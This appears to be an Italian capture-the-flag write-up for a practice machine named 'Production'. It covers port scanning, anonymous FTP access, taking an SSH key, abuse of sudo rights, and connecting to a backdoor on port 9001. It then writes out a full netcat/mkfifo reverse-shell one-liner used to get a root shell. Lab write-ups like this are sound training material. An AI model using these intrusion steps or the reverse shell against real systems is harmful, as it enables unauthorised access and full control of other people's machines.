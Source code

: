 # PRODUCTION

## ENUMERAZIONE
facciamo uno scan delle porte
```bash
nmap production.thm -sV -sC 
```

troviamo un ftp con accesso anonimo vediamo cosa c'è dentro

## FTP

```bash
ftp Anonymous@production.thm
```
ottimo abbiamo una flag e delle credenziali ssh per ashu

prendiamo l'id_rsa

```bash
get id_rsa
```

diamogli i permessi giusti 

```bash
chmod 600 id_rsa
```
colleghiamoci in ssh

## SSH
```bash
ssh -i id_rsa ashu@10.10.224.175
```

facciamo privesc

## PRIVILEGE ESCALATION

```bash
sudo -l
```
OTTIMO possiamo switchare utente come skidy

```bash
sudo su skidy
```

andiamo nella directory di skidy

abbiamo trovato una directory che si chiama homework. entriamoci!

abbiamo un file python, leggiamo cosa c'è scritto

c'è un password per un backdoor sulla porta 9001 a quanto pare 

vediamo skidy cosa può eseguire come sudo

```bash
sudo -l
```

possiamo eseguire il comando git come sudo(andate a guardare su gtfo.bins) 


ora pensiamo alla backdoor

## backdoor

tramite la shell root colleghiamoci alla porta 9001
```bash
nc 10.10.224.175 9001
```

usiamo la password trovata nel file python di prima

siamo dentro!

usiamo un reverse shell per la porta 9002
```bash
echo "#!/bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ipvostro portainascolto >/tmp/f" > /tmp/a; chmod +x /tmp/a
```
apriamo un altro terminale e mettiamoci in ascolto sulla porta 9002
```bash
nc production.thm 9002
```
poi apriamo un altro terminale e mettiamoci in ascolto sulla reverse shell che abbiamo creato prima 

```bash
nc -lvnp porta scelta nella reverse shell
```

sul primo terminale qundi quello avviato sulla porta 9002 mandiamo il comando
```bash
/tmp/./a
```
questo comando avvierà una reverse shell con privilegi di root sul vostro terminale su cui vi eravati messi in ascolto



